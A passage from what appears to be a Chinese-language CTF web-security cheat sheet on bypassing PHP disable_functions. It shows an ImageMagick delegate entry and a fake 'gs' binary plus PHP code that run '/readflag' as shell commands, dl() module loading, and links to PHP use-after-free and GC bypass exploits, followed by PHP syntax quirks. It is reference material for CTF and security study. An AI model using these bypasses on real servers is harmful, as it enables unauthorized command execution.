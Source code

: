     ```xml
    <delegatemap>
    <delegate decode="ps:alpha" command="sh -c &quot;/readflag > /tmp/output&quot;"/>
    </delegatemap>
    ```

  - 蓋`PATH` + ghostscript:
    - 造一個執行檔gs

    ```cpp
    #include <stdlib.h>
    #include <string.h>
    int main() {
      unsetenv("PATH");
      const char* cmd = getenv("CMD");
      system(cmd);
      return 0;
    }
    ```

    ```php
    putenv('PATH=/tmp/mydir');
    putenv('CMD=/readflag > /tmp/mydir/output');
    chmod('/tmp/mydir/gs','0777');
    $img = new Imagick('/tmp/mydir/1.ept');
    ```
- dl()
  - 載入module
  - `dl("rce.so")`

- FFI
  - PHP 7.4 feature
  - preloading + ffi
  - e.g. RCTF 2019 - nextphp
- [Extension](https://github.com/w181496/FuckFastcgi)
- [l3mon/Bypass_Disable_functions_Shell](https://github.com/l3m0n/Bypass_Disable_functions_Shell)

- [JSON UAF Bypass](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)
  - 7.1 - all versions to date
  - 7.2 < 7.2.19 (released: 30 May 2019)
  - 7.3 < 7.3.6 (released: 30 May 2019)
- [GC Bypass](https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass)
  - 7.0 - all versions to date
  - 7.1 - all versions to date
  - 7.2 - all versions to date
  - 7.3 - all versions to date

- 族繁不及備載......

## 其他

- 大小寫不敏感
  - `<?PhP sYstEm(ls);`
- `echo (true ? 'a' : false ? 'b' : 'c');`
  - `b`
- ```echo `whoami`; ```
  - `kaibro`
- 正規表達式`.`不匹配換行字元`%0a`
- 正規表達式常見誤用:
  - `preg_match("/\\/", $str)`
  - 匹配反斜線應該要用`\\\\`而不是`\\`
- 運算優先權問題
  - `$a = true && false;`
    - `$a` => `false`
  - `$a = true and false;`
    - `$a` => `true`